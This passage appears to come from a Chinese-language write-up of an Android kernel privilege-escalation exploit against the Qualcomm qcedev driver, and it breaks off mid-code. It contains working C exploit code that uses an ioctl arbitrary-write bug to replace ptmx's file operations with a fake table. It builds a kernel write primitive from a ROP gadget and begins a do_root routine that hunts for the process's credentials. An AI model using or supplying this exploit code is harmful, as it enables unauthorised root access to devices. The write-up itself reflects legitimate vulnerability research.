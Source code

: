 ```
        if(ret == -1) `{`
                printf("[-] Ioctl qcedev fail(%s - %d)n", strerror(errno), errno);
                return -1;
        `}`
        return 0;

`}`
```

参数 src 就是 fake_ptmx_fops 加密后的值，我们将其地址放入 qcedev_cipher_op_req.vbuf.src[0].vaddr 里，目标地址 qcedev_cipher_op_req.vbuf.dst[0].vaddr 存放 ptmx_cdev-&gt;ops 的地址，然后调用 ioctl 触发漏洞，任意地址写漏洞触发后，目标地址 ptmx_cdev-&gt;ops 的值会被覆盖为 fake_ptmx_fops.

此后，对 ptmx 设备的内核fops函数执行，都会被重定向到用户层伪造的函数，我们通过一些rop 片段来实现伪函数，就可以被内核直接调用。

```
/*
 * rop write:
 * ffffffc000671a58:       b9000041        str     w1, [x2]
 * ffffffc000671a5c:       d65f03c0        ret
 */
#define ROP_WRITE       0xffffffc000671a58
```

比如，我们找到一段 rop 如上，其地址是 0xffffffc000671a58， 其指令是 str w1, [x2] ; ret ;

这段 rop 作为一个函数去执行的话，其效果相当于将第二个参数的值写入第三个参数指向的地址。

我们用这段 rop 构造一个用户态函数，如下

```
static int kernel_write_32(unsigned long addr, unsigned int val)
`{`
        unsigned long arg;

        *(unsigned long*)(fake_ptmx_fops + 9 * 8) = ROP_WRITE;

        arg = addr;
        ioctl_syscall(__NR_ioctl, ptmx_fd, val, arg);
        return 0;
`}`
```



9*8 是 ioctl 函数在 file_operations 结构体里的偏移，

```
*(unsigned long*)(fake_ptmx_fops + 9 * 8) = ROP_WRITE;
```

的效果就是 ioctl 的函数实现替换成 ROP_WRITE, 这样我们调用 ptmx 的 ioctl 函数时，最后真实执行的是 ROP_WRITE, 这就是一个内核任意地址写任意值函数。

同样的原理，我们封装读任意内核地址的函数。

有了任意内核地址读写函数之后，我们通过以下方法完成最终提权：

```
static int do_root(void)
`{`
        int ret; 
        unsigned long i, cred, addr;
        unsigned int tmp0;

        /* search myself */
        ret = get_task_by_comm(&amp;my_task);
        if(ret != 0) `{`
                printf("[-] get myself fail!n");
                return -1;
        `}`
        if(!my_task || (my_task &lt; 0xffffffc000000000)) `{`
```